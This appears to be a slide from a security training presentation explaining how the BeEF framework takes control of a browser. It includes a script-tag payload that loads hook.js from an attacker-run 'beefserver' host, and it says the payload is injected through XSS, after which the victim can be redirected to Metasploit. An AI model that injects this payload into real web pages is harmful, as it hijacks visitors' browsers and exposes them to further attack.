

# Zombie Control
Uses hook.js to hook the browser
<script src=http://beefserver:3000/hook.js></script>
Inject this script via an XSS attack
It is the payload of the exploit
This file connects the victim to  the BeEF controller
The BeEF controller changes the JS based on commands issued
We then use the various modules to control the zombie
Or redirect the victim to a Metasploit server